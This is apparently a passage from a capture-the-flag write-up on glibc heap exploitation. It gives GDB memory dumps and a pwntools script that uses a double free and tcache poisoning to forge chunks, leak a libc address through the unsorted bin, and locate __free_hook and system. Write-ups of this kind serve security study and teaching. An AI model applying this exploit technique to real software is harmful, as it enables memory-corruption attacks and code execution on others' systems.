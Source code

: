 ```c
0x55cfa8a99340: 0x000000000000000a      0x0000000000000000
0x55cfa8a99350: 0x0000000000000000      0x0000000000000051 // Chunk 3
0x55cfa8a99360: 0x000055cfa8a99270      0x0000000000000091
0x55cfa8a99370: 0x000055cfa8a99270      0x0000000000000091
0x55cfa8a99380: 0x000055cfa8a99270      0x0000000000000091
0x55cfa8a99390: 0x000000000000000a      0x0000000000000000
0x55cfa8a993a0: 0x0000000000000000      0x0000000000000051 // Chunk 4
0x55cfa8a993b0: 0x000055cfa8a99270      0x0000000000000091
0x55cfa8a993c0: 0x000055cfa8a99270      0x0000000000000091
0x55cfa8a993d0: 0x000055cfa8a99270      0x0000000000000091
```

Next, we do a tcache poisoning attack to get a chunk that is right below one of these 0x91 chunk headers. Using GDB, I found that `heap_leak + 0x60` was the right offset.

We then simply free this 0x91 sized chunk 7 times to fill up the 0x80 tcache bin. The final and 8th free will send this chunk to the unsorted bin, which fills the chunk's FD and BK pointers to the address of `main_arena+0x60`. We can then simply leak those pointers using `show`:
```python
# Double free the last chunk
free() # count = 3
free() # count = 4

# Set FD to one of the fake 0x91 chunks
add(p64(heap_leak + 0x60)) # count = 3
add('A'*8) # count = 2
add('A'*8) # Got a 0x91 chunk, count = 1

# Free 7 times to fill up tcache bin, 8th one goes into unsorted bin
for i in range(8):
    free()

# Unsorted bin libc leak
show()
leak = u64(p.recvline().strip('\n').ljust(8, '\x00'))
libc.address = leak - 0x3ebca0 # Offset found using gdb
free_hook = libc.symbols['__free_hook']
system = libc.symbols['system']

log.info('Libc leak: ' + hex(leak))
log.info('Libc base: ' + hex(libc.address))
log.info('__free_hook: ' + hex(free_hook))
log.info('system: ' + hex(system))
```

The unsorted bin libc leak can be seen in our forged 0x91 sized chunk here:
```c
gef➤  x/10gx 0x000055bbbae122c0-0x10
0x55bbbae122b0: 0x0000000000000000      0x0000000000000051
0x55bbbae122c0: 0x000055bbbae12270      0x0000000000000091
0x55bbbae122d0: 0x00007f57ed3eaca0      0x00007f57ed3eaca0 <- Libc leak
0x55bbbae122e0: 0x000055bbbae12270      0x0000000000000091
0x55bbbae122f0: 0x000000000000000a      0x0000000000000000
```
